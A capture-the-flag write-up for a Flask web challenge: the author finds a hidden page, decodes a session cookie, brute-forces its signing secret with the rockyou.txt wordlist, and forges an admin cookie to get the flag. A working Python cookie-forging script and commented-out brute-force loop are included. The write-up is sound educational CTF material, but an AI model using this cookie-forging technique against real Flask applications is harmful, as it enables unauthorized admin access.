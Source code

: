 ![image](https://user-images.githubusercontent.com/109911533/220856284-9cd886d2-98df-417d-8453-33e8ef317771.png)<br />

This challenge for me is so misleading xD, cost me so much time but still ... i got it.<br />
Lets take a look at the website.<br />
![image](https://user-images.githubusercontent.com/109911533/220856885-118d6b37-1476-44f0-b1e7-e6262b74bbfd.png)<br />

Hmmmm, nothing much too see. How about taking a look at the page's source. <br />
![image](https://user-images.githubusercontent.com/109911533/220857098-02bba6cb-f1df-45ea-be9c-4d30c8e0e87c.png)<br/>

Looks like there's a hidden page called "/hidden_page", lets visit that.<br />
![image](https://user-images.githubusercontent.com/109911533/220857412-c74f17f5-60d7-40d5-8473-e2e98032cc7e.png)<br />

 The page told us that we need a key, but where you ask? This is the part that it got me so mislead that i ended up brute forcing for more than an hour.Basically the admin gave us this hint.<br />
![image](https://user-images.githubusercontent.com/109911533/220857773-df6c222e-0e28-47b8-a259-4690d283b2b3.png)<br />

Ahhh, classic rockyou.txt. If you dont know about it, you can look it up online about what it is.<br />
So now, what do we do in order to get the key. Brute forcing of course. Lets build a script to brute force the key from the website.This is a simple python script that should do the work.<br />
![image](https://user-images.githubusercontent.com/109911533/220858536-b99833ec-e726-4287-a16e-465ee1e964f8.png)<br />

So now we run the script, and start the waiting game. This is where i started to doubt myself about if its the correct way to do it since everyone in the Discord started to talk about it (no hints were given of course). But basically everyone is saying no need to brute force the key what so ever, and maybe there was something else, or you brute forcing the wrong part, bla bla ,...<br />

An HOUR passed without any result from the script, so i think there must be something wrong with the script or maybe there was something else. Waiting for the script i started to look at the source code one more time, just find out the infamous "key" is in a CSS file.<br />
![image](https://user-images.githubusercontent.com/109911533/220859876-d6d57d9b-cc53-4d34-bdeb-28afa656e5a2.png)<br />
![image](https://user-images.githubusercontent.com/109911533/220860016-76bd3dec-3841-4a82-8fb9-2a4b7a2a76d2.png)<br />

LOL, i stop the script and wanted to cry xD. Like for real? OMG.Add it to the url and we got it.<br ?>
![image](https://user-images.githubusercontent.com/109911533/220860307-a230779e-979f-4add-bfe3-847bfc36378a.png)<br />

It direct us to a page and said that we need to verify as ADMIN, which of course we're not. By clicking on verify we got "SUS" by the website.<br />
![image](https://user-images.githubusercontent.com/109911533/220860663-24a91f2f-41a9-4447-b201-5c8b8800e7bf.png)<br />

Now if we take a look at the url, there's a key parameter saying "/?key=anotherkeylol". So you think this will be where we brute force to get the key for admin right?<br />

NO!!!

Again everyone is talking about no need to brute force the key parameter. So maybe it's something else.<br />
This is where i got stuck. I basically dont know what to do since you need to be the admin in order to be able to verify, and the url said that we need another key, if it's not brute forcing the key, what else coudl it be.<br />
Wandering around the chall'page, i notice something. There's a session cookie. Since a lot of web challs tend to be build on Flask, i grab that cookie and decode it. And voila, the cookie is setting "admin":"false".<br />
![image](https://user-images.githubusercontent.com/109911533/220862506-9d110cad-8ac7-4d35-a23c-2e02c06589be.png)

Now we know that to do next, which is to bake a Flask cookie for the website with "admin":"true" to able to become the admin and verify. But if you notice, when forging a flask cookie, we need a secret key.<br />
So this is where brute forcing comes in, using rockyou.txt we need to brute force the secret key, then use it to encode the cookie with the admin value setting to true. <br />
This is my script for it.<br />
```python
import requests
import sys
import zlib
from itsdangerous import base64_decode
import ast


from flask.sessions import SecureCookieSessionInterface

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key


def encode(secret_key, session_cookie_structure):
    """ Encode a Flask session cookie """
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)

        return s.dumps(session_cookie_structure)

    except Exception as e:
        return "[Encoding error] {}".format(e)
        raise e

url = "https://chocolates-mhsctf.0xmmalik.repl.co/admin-check"

payload = {"admin": "true"}

#with open("rockyou.txt", errors = "ignore") as file:
    #lines = [l.strip() for l in file.readlines()]
    #for secret_key in lines:

print(encode("BATMAN", "{'admin':'true'}"))
        #print('Testing secret key "{}"'.format(secret_key))
        #r = requests.get(url , cookies = { "session" : new_cookie })

        #if "valentine{" in r.text:
            #print("GOT ITTTTTTTTTTTTTTTTTTTTTTTTTTTT")
            #break
```<br />
The # comment i use is when i got the secret key, which is "BATMAN", then i comment all the code out, and use the encode function to encode "BATMAN" with admin setting to true.<br />
![image](https://user-images.githubusercontent.com/109911533/220864698-c3f3b177-97a8-422e-a1ed-04c66fffc086.png)<br />

Now we got that, lets copy and paste it on to the website cookie, and there you have it, the FLAG.<br />
![image](https://user-images.githubusercontent.com/109911533/220864973-977ec71f-fcc7-4d76-8a93-2f70cdd1171c.png)









